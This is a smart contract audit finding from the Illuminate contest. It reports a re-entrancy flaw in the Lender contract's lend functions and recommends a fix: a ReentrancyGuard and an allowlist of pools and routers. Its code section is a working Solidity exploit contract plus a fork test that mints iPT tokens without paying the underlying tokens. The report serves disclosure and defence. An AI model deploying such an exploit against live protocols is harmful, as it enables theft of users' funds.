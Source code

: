 Jeiwan

high

# Re-entrancy during lending allows an attacker to mint iPT without paying underlying tokens

## Summary
Re-entrancy during lending allows an attacker to mint iPT without paying underlying tokens
## Vulnerability Detail
The `lend` functions of `Lender` that take a pool/router address are subject to re-entrancy attacks. The functions are:
1. `lend` (Illuminate and Yield): calls the user-supplied `y` in `yield` ([Lender.sol#L335](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L332), [Lender.sol#L946](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L946));
1. `lend` (Swivel): calls the user-supplied `y` in `swivelLendPremium` ([Lender.sol#L423](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L423), [Lender.sol#L968](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L968), [Lender.sol#L946](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L946));
1. `lend` (Element): calls the user-supplied `e` in `elementSwap` ([Lender.sol#L503](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L503), [Lender.sol#L1015](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L1015));
1. `lend` (APWine): calls the user-supplied `x` ([Lender.sol#L601](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L601));
1. `lend` (Sense): calls the user-supplied `x` ([Lender.sol#L725](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L725)).
## Impact
One way to exploit this vulnerability is to deploy an exploit contract and pass its address as the `y` argument in the Illuminate/Yield `lend` function. The exploit contract will call the `mint` function, which will increase the iPT balance of `Lender`, which will trick the outer `lend` call to mint iPT to the attacker. The attacker will get an increased amount of iPT tokens without spending the underlying tokens.
## Code Snippet
```solidity
// test/fork/Lender.t.sol
contract ExploitLendIlluminate {
    IERC20 immutable ipt;
    IERC20 immutable u;
    Lender immutable l;
    uint256 immutable maturity;
    address immutable owner = msg.sender;

    constructor(IERC20 ipt_, IERC20 u_, Lender l_, uint256 maturity_) {
        ipt = ipt_;
        u = u_;
        l = l_;
        maturity = maturity_;
    }

    function sellBasePreview(uint128 /* amount */) public view returns (uint128) {
        /* NOOP */
        return 0;
    }

    function sellBase(address /* receiver */, uint128 /* amount */) public returns (uint128) {
        ipt.approve(address(l), type(uint256).max);

        l.mint(uint8(0), Contracts.USDC, maturity, ipt.balanceOf(address(this)));

        ipt.transfer(owner, ipt.balanceOf(address(this)));
        u.transfer(owner, u.balanceOf(address(this)));

        return 0;
    }
}

function testLendReentrancyExploit_AUDIT() public {
    vm.startPrank(msg.sender);
    IERC20(Contracts.ELEMENT_TOKEN).approve(address(l), type(uint256).max);
    vm.stopPrank();

    deployMarket(Contracts.USDC);

    runCheatcodes(Contracts.USDC);
    deal(Contracts.ELEMENT_TOKEN, msg.sender, startingBalance);

    // First, the attacker obtains some iPT tokens.
    l.mint(uint8(3), Contracts.USDC, maturity, startingBalance);

    address ipt = mp.markets(Contracts.USDC, maturity, 0);
    assertEq(startingBalance, IERC20(ipt).balanceOf(msg.sender), "ipt balance sender");
    assertEq(0, IERC20(ipt).balanceOf(address(l)), "ipt balance lender");

    deal(Contracts.USDC, address(this), startingBalance);
    IERC20(Contracts.USDC).approve(address(l), type(uint256).max);

    // Deploying the exploit contract.
    ExploitLendIlluminate exploit = new ExploitLendIlluminate(
        IERC20(ipt),
        IERC20(Contracts.USDC),
        l,
        maturity
    );

    // Send iPT to the exploit contract to use them in minting.
    IERC20(ipt).transfer(address(exploit), startingBalance);

    // Checking balances before.
    assertEq(startingBalance, IERC20(Contracts.USDC).balanceOf(address(this)));
    assertEq(0, IERC20(ipt).balanceOf(msg.sender));

    // The attacker starts the attack.
    l.lend(uint8(0), Contracts.USDC, maturity, startingBalance, address(exploit), 0);

    // The attacker didn't spend underlying tokens.
    assertEq(startingBalance, IERC20(Contracts.USDC).balanceOf(address(this)));
    // The attacker got more iPT tokens.
    assertEq(2 * startingBalance, IERC20(ipt).balanceOf(msg.sender));
    // Lender also got some iPT tokens due to the mint call in the exploit contract.
    assertEq(startingBalance, IERC20(ipt).balanceOf(address(l)));
}
```
## Tool used
Manual Review
## Recommendation
Consider using [ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol) in all the `lend` functions, as well as in the `mint` function. Also, consider validating all the pool and router addresses supplied by caller. For example, maintain an allowlist of valid pools/routers or query a third-party registry contract to ensure a pool/router is a legit contract.